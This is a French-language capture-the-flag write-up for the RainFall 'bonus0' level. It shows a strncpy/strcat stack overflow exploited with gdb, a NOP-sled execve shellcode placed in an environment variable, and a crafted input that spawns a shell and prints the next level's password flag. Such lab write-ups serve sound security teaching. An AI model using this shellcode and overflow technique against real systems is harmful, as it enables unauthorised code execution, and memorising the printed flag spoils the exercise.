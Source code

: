On remarque un strncpy qui prend en argument nos paramètres entrée, il se trouve que l'on peut faire en sorte de ne pas mettre de `\0` à la fin de notre buffer, en insérant une taille supèrieur aux buffer (20). L'on remarque également l'utilisation d'un strcpy et d'un strcat à l'aide de ces fonctions, on peut modifier l'adresse de retour du main. A partir de la dixième lettre de l'alphabet, on peut écrire sur cette fameuse adresse.

```bash
(gdb) cont
Continuing.
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
abcdefghjklnmopqrstuvwxy

Breakpoint 2, 0x08048598 in pp ()
(gdb) cont
Continuing.
aaaaaaaaaaaaaaaaaaaaabcdefghjklnmopqrstu��� abcdefghjklnmopqrstu���

Program received signal SIGSEGV, Segmentation fault.
0x6d6e6c6b in ?? () <- 6b = 'j'
```

On set une variable d'environement `S` où l'on insère des NOP suivis de notre shellcode.
Les NOP permettent de trouver plus facilement le shellcode.

```bash
bonus0@RainFall:~$ export S=$(python -c 'print "\x90" * 50 + "\x31\xC0\x31\xDB\x31\xD2\x31\xC9\xB0\x0B\x53\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\xCD\x80"')
```

Ensuite on cherche où est à peu près l'adresse de `S` afin de pouvoir rediriger à cette endroit pour executer le shellcode.

```bash
bonus0@RainFall:~$ gdb bonus0
...
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 
(gdb) x/250s $esp
...
0xbffffe54:	 "S=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\322\061ɰ\vShn/shh//bi\211\343̀"
```

```bash
bonus0@RainFall:~$ (python -c 'print "a" * 42'; python -c 'print "1" * 9 + "\x74\xfe\xff\xbf" + "B" * 42'; cat) | ./bonus0 
 - 
 - 
aaaaaaaaaaaaaaaaaaaa111111111t���BBBBBBB��� 111111111t���BBBBBBB���
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
